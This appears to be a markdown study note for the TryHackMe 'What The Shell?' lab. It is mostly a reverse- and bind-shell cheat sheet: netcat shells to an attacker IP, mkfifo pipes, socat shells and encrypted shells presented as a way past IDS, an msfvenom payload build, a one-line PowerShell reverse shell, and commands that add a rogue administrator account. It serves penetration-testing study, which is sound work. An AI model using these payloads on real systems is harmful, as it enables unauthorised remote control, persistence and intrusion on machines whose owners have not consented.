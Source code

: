 # What The Shell?

> We can force the remote server to either send us command line access to the server (a **reverse** shell), or to open up a port on the server which we can connect to in order to execute further commands (a **bind** shell).

___

## Tools

- `netcat`
- `socat`
- `msfvenom`
- `metasploit multi/handler` + `meterpreter`
- `/usr/share/webshells` (on Kali)

___

## Types of shells

### Reverse shells

**Reverse shells** are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.

Example:
- Attacker's machine: `nc -lnvp 1234`
- Victim's machine: `nc <ATTACKER_IP> 1234 -e /bin/bash`
    
### Bind shells 

**Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

Example:
- Attacker's machine: `nc <VICTIM_IP> 1234`
- Victim's machine: `nc -lnvp 1234 -e "cmd.exe"`

### (Non)Interactive shells

Shells can be either interactive or non-interactive.

- _Non-Interactive_: limited to programs that do not require user interaction. 
- _Interactive_: we can use programs that require user interaction.

> `ssh` is a program that do require user interaction.

![](img/task3.png)
___

## `netcat` shell

> Non-Interactive

> Pretty unstable &rarr; `Ctrl + C` kills the whole thing 

Upgrade shell techniques:

- Technique #1 - 3 steps: 
    1. `python -c 'import pty;pty.spawn("/bin/bash")'`
    2. `export TERM=xterm` then `Ctrl + Z`
    3. Finally, `stty raw -echo; fg`

- Technique #2 - 2 steps: _(particularly useful when dealing with Windows shells)_
    1. `apt install rlwrap -y` _(in case `rlwrap` is not installed)_
    2. `rlwrap nc -lvnp <port>`

- Technique #3 - 3 steps:
    1. `python3 -m http.server 80`
    2. `wget <LOCAL-IP>/socat -O /tmp/socat` (for linux) or `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` (For Windows)

We can also specify the number the terminal size with `stty`. Tips:
- `stty -a` (getting current rows and columns values)
- `stty rows <number>`
- `stty cols <number>`
    
![](img/task4.png)
![](img/task5.png)

___

## `socat`

### Reverse shells

- Listener: `socat TCP-L:<port> -`
    + Connect back (from Linux): `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
    + Connect back (from Windows): `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

    > The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

- Fully stable reverse shell _(when the target is a Linux machine with `socat` installed.)_:
    ```bash
    socat TCP-L:<port> FILE:`tty`,raw,echo=0
    ```
    + Connect back: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
        * __pty__: allocates a pseudoterminal on the target -- part of the stabilisation process
        * __stderr__: makes sure that any error messages get shown in the shell, (often a problem with non-interactive shells)
        * __sigint__: passes any Ctrl + C commands through into the 
        * __sub-process__: allowing us to kill commands inside the shell
        * __setsid__: creates the process in a new session
        sane, stabili
        ses the terminal, attempting to "normalise" it.

### Bind shells

- Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
- Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

To connect to this bind shell, we can use: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

![](img/task6.png)

### Encrypted shells

> both bind and reverse shells

> often able to bypass an IDS as a result

We just have to replace `TCP` by `OPENSSL` and follow these steps:

1. Generate a certificate: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
2. Merge the two created files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`

Reverse shell:

- Run a listener (attacker): `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
    > `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized authority.
- Connect back (target): `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

Bind shell:

- Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

- Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

![](img/task7.png)

### `msfvenom`

> Can be used to generate code for both reverse and bind shells, plus shellcode and payloads in various formats (`.exe`, `.aspx`, `.py`, etc.)

- General syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`
    + -`p` followed by `<OS>/<arch>/<payload>`
- Generate a Windows x64 Reverse Shell in an exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

> **staged** reverse shell payloads (2 pieces) and **stageless** reverse shell payloads (1 bulk)

`msfvenom --list payloads`

![](img/task9.png)

___

## Common shell payloads

### Linux targets

- Bind shell with `nc` _(in case `-e` is not included)_: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- Reverse shell with `nc` _(in case `-e` is not included)_: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Windows targets

- One line Powershell reverse shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Adding a user to the machine then log in over RDP, telnet, winexe, psexec, WinRM or any other method:
    + `net user <username> <password> /add`
    + `net localgroup administrators <username> /add`

> `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:PASSWORD`
___

## Useful links

- [PayloadsAllTheThings - Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [PentestMonkey - Reverse Shell Cheat Sheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)